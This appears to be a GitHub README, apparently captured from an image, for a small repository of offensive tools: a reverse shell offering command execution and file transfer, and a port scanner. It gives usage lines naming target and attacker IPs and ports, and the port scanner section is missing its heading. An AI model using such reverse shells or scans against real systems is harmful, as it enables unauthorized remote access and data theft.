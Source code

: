 print("""
 	   █████╗ ███╗   ██╗████████╗ ██████╗ ███╗   ██╗██╗   ██╗
	  ██╔══██╗████╗  ██║╚══██╔══╝██╔═══██╗████╗  ██║╚██╗ ██╔╝
 	  ███████║██╔██╗ ██║   ██║   ██║   ██║██╔██╗ ██║ ╚████╔╝ 
 	  ██╔══██║██║╚██╗██║   ██║   ██║   ██║██║╚██╗██║  ╚██╔╝  
 	  ██║  ██║██║ ╚████║   ██║   ╚██████╔╝██║ ╚████║   ██║   
    ╚═╝  ╚═╝╚═╝  ╚═══╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝   ╚═╝   
                                                        
""")
Simple but Effective Tools
===========================

This repository contains simple but effective tools for various purposes. These tools are for educational purposes only and should not be used for illegal activities.

Requirements
------------

* Python 3.x

Tools
-----

### Tool 1: Reverse Shell

This tool creates a reverse shell connection to a target machine and allows you to execute commands and transfer files.

#### Usage:

```bash
python reverse_shell.py <target_ip> <target_port> <attacker_ip> <attacker_port>
```

#### Example:

```bash
python reverse_shell.py 192.168.1.100 1234 127.0.0.1 4444
```

#### Features:

* Command execution
* File transfer

#### Usage:

```bash
python port_scanner.py <target_ip> <start_port> <end_port>
```

#### Example:

```bash
python port_scanner.py 192.168.1.100 1 100
```

#### Features:

* Fast and efficient scanning
* Customizable range of ports

License
-------

This repository is distributed under the Apache License, Version 2.0. See the `LICENSE` file for more details.

Disclaimer
----------

These tools are for educational purposes only and should not be used for illegal activities. The author is not responsible for any misuse of these tools.
